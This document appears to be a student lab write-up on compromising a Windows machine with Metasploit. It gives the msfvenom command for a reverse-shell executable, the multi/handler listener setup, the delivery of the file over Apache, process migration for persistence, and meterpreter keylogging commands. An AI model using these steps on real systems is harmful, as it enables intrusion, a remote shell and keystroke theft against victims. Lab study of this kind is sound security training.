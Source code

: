 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

Find the attackers ip address using ifconfig
## OUTPUT:
![Screenshot 2024-04-29 204511](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/08197f7d-0ab9-4a3b-8df9-c7c70e83e41d)

Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![Screenshot 2024-04-29 204544](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/5c084377-09b8-4430-95f1-bb952e3d3b5c)


copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/0fed7549-d5a6-445e-8c94-ae3a6294d050)



Start apache server
sudo systemctl apache2 start
![image](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/0e80fcac-7d4b-405c-8f00-1a70421fca3b)


Check the status of apache2
![image](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/963f37a2-9f73-4b9d-aa9f-13c1432613f3)

Invoke msfconsole:
## OUTPUT:

![Screenshot 2024-04-29 204808](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/970ca074-b231-40ee-bf3f-81a65b6c534c)




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![Screenshot 2024-04-29 205928](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/b58e80cf-6c8c-4917-9dfb-5c0b18626b3f)

```
/*
Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
*/
```

![Screenshot 2024-04-29 210014](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/eddeb6f2-f369-4e62-8d5f-f84094478776)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 

![image](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/a052e59c-d560-4502-bb60-8ee7dd7b89e2)


Bypass any warning boxes, double-click the file, and allow it to run.
![image](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/b9906630-9108-487d-8073-3e2a560d8483)


On kali give the command exploit
![image](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/6a1e5be1-a317-492a-906a-43c773a37fe9)



To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156
![image](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/2f7d996b-2036-4ff2-a8fe-2063d7858eb1)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![image](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/619ff40d-cba1-4749-a23c-5d1c624f2dff)


Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.


keyscan_dump	Shows the keystrokes captured so far
![image](https://github.com/VARSHINI22009118/Compromising-windows-using-Metasploit/assets/119401150/5f0af326-0a94-4e9d-8fed-fbb221ef9634)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
